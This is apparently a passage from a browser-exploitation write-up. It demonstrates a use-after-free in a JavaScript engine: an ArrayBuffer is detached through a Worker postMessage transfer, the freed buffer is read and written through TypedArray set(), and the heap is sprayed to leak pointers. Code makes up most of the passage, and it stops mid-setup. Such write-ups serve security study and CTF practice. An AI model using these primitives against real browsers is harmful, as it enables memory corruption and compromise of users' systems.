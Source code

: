```js
function detachBuffer(x){ // x is the ArrayBuffer that we want to detach
    try{
        var w = new Worker("");
        w.postMessage("",[x]);     
        w.terminate();
    }catch(ex){
        console.log("exception when detaching")
    }
}

var victim = new Float64Array(10).fill(12.34);
detachBuffer(victim.buffer);

//////////
// do something
//////////
```

Then we can use the `set()` function to read/write to it as shown below:

```js
var leaks = new Float64Array(10);
var data = new Float64Array(10).fill(13.37);

leaks.set(victim,0); // read from detached buffer
victim.set(data,0)   // write to detached buffer
```

Combining with correct order of freeing/allocating objects, it is possible to leak a pointer from the freed memory.


```js
function gc() {
    for (let i = 0; i < 50; ++i) {

    let buffer = new ArrayBuffer(1024 * 1024);
  }
}


//console.log("start!")
const UAF_SIZE = 0xc;
const SPRAY_CNT = 0x40000;
const FLT_ARR_SZ = 0x1; // 0x200;
var x = new Float64Array(10);
var y = new Float64Array(10);
var buff = new ArrayBuffer(8);
var view = new DataView(buff);
var marker2 = (0xdeadbeefn).i2f();
var no_gc = [];
spray_ary = [];

for(var i = 0; i < 100;i++){
    no_gc.push(new Float64Array(FLT_ARR_SZ).fill(1.1))
    spray_ary.push(new Array(FLT_ARR_SZ).fill(marker2));

}


var uaf = new Float64Array(FLT_ARR_SZ).fill((0x4141424243434444n).i2f());
var leaks = new Float64Array(FLT_ARR_SZ);
for(var i = 0; i < 100;i++){
    detachBuffer(no_gc[i].buffer);
}

```